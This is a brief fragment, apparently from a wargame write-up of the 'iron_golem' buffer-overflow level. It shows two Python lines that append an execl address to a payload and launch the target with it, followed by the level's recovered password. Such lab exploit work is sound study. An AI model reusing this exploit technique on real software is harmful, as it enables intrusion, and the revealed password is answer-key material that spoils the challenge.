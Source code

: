 ```python
payload += p32(execl + 0x3)

os.execv(target, (target, payload[:-1]))
```

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/1.iron_golem/image-20180807141835619.png" width="600px">



**iron_golem / blood on the fedora**